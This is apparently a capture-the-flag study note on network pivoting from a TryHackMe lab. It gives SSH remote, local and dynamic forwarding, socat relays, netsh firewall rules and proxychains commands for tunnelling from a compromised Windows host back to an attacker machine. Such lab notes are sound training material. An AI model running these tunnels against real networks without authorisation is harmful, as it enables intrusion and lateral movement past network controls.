





# Port forwarding

## SSH tunnelling

SSH, as it already has built-in functionality to do port forwarding through a feature called SSH Tunneling. While 
SSH used to be a protocol associated with Linux systems, Windows now ships with the OpenSSH client by default, so 
you can expect to find it in many systems nowadays, independent of their operating system.

On Windows machines, most likely no SSH server will be available:

|  |
|:--:|
| Start a tunnel from the compromised machine, acting as an `ssh` client, to the attack machine, <br>which will act as an `ssh` server. |

Making a connection back to our attacker's machine, we will want to create a user in it without access to any 
console for tunnelling and set a password to use for creating the tunnels.

```text
useradd tunneluser -m -d /home/tunneluser -s /bin/true
passwd tunneluser
```

The SSH tunnel can be used to do either local or remote port forwarding.

### SSH remote port forwarding

Remote port forwarding is useful, for example, when having gained control over the 
2.2.2.2 Windows host (it does not need to be administrator access) and would like to use it as a pivot to access a 
port on a server to which we can not directly connect.

|  |
|:--:|
| Take a reachable port from the SSH client (the compromised machine) and project it into a <br>remote ssh server (the attacker's machine). |

To forward port 3389 on the server back to our attacker's machine, on the compromised Windows host:

    C:\> ssh tunneluser@1.1.1.1 -R 3389:3.3.3.3:3389 -N

This establishes an SSH session from 2.2.2.2 (Compromised host) to 1.1.1.1 (Attacker machine) using the `tunneluser` user.

Because the tunneluser is not allowed to run a shell on the attacker machine, we need to run the `ssh` command with 
the `-N` switch to prevent the client from requesting one, or the connection will exit immediately. The `-R` switch is 
used to request a remote port forward, and the syntax requires us first to indicate the port we will be opening at 
the `ssh` server (`3389`), followed by a colon and then the IP and port of the socket we will be forwarding 
(`3.3.3.3:3389`). Port numbers do not **need** to match.

When up and running, we can go to the attacker's machine and RDP into the forwarded port to reach the server:

    xfreerdp /v:127.0.0.1 /u:<username> /p:<password>

### SSH local port forwarding

Local port forwarding allows for "pulling" a port from an ssh server into the ssh client. Any host on the network 
that can not connect directly to the attacker machine but can connect to the compromised host will now be able to 
reach the services offered on the attack machine through the pivot host.

|  |
|:--:|
| Take any service available in our attacker's machine and make it available through a port on the <br>compromised host. |

To forward port `80` from the attack machine and make it available from the compromised host, run:
           
    C:\> ssh tunneluser@1.1.1.1 -L *:80:127.0.0.1:80 -N

The `-L` option requires indicating which local socket used by the compromised host to receive connections on (`*:80`) 
and the remote socket to connect to from the attack machine perspective (`127.0.0.1:80`).

Opening a new port on the compromised host, add a firewall rule to allow for incoming connections (with `dir=in`). 
This requires administrative privileges:

    netsh advfirewall firewall add rule name="Open Port 80" dir=in action=allow protocol=TCP localport=80

Up and running, any user pointing their browsers to the compromised host at `http://2.2.2.2:80` will see the website 
published by the attack machine.

## Port forwarding with socat

`socat` is not as flexible as `ssh`, and it is more noisy, but if `ssh` is not available on the compromised host, may 
be an option. It must be transferred to the compromised host first.

|  |
|:--:|
| Access port `3389` on the server using the compromised host as a pivot, with a similar <br>effect as SSH remote port forwarding. |

To access port `3389` on the server using the compromised host:

    C:\>socat TCP4-LISTEN:3389,fork TCP4:3.3.3.3:3389

The `fork` option forks a new process for each connection received, making multiple connections without closing possible.
Otherwise, it would be closed after the first connection finishes.

And because a port is being opened on the pivot host, create a firewall rule:

    netsh advfirewall firewall add rule name="Open Port 3389" dir=in action=allow protocol=TCP localport=3389

|  |
|:--:|
| The compromised host will spawn port `80` and listen for connections to be forwarded to port `80` on <br>the attack machine. |

To expose port `80` from the attack machine, making it reachable by the server:

    C:\>socat TCP4-LISTEN:80,fork TCP4:1.1.1.1:80


## Dynamic port forwarding and SOCKS

When wanting to run scans against many ports of a host, or even many ports across many machines through a pivot host, 
dynamic port forwarding seems a good choice. It allows for pivoting through a host and establishing several 
connections to any IP addresses/ports we want, by using a `SOCKS` proxy.

Establish a reverse dynamic port forwarding ssh tunnel on the compromised host:

    C:\> ssh tunneluser@1.1.1.1 -R 9050 -N

Edit the proxychains configuration on the attack machine:

    sudo nano /etc/proxychains4.conf

Go down to the `[ProxyList]` section and add your proxy connection. The default port is `9050`, but any port will 
work as long as it matches the one we used when establishing the SSH tunnel.

If we now want to execute any command through the proxy, we can use `proxychains`, for example:

    proxychains curl http://pxeboot.za.tryhackme.com

**Note: nmap might not work well with SOCKS in some circumstances**

## Flag

* Connect to THMJMP2 via SSH using the credentials from the first task.
* Connect via RDP to THMIIS using `socat`.
* Exploit vulnerable Rejetto HFS on the Domain Controller.

## Resources

* [0xBEN Notes and Cheatsheets: Port Forwarding](https://notes.benheater.com/books/network-pivoting/chapter/port-forwarding)
* [0xBEN Notes and Cheatsheets: Forward Dynamic SOCKS Proxy](https://notes.benheater.com/books/network-pivoting/page/ssh-port-forwarding#bkmrk-dynamic-port-forward)
* [0xBEN Notes and Cheatsheets: Reverse Dynamic SOCKS Proxy](https://notes.benheater.com/books/network-pivoting/page/ssh-port-forwarding#bkmrk-ssh-reverse-dynamic-)
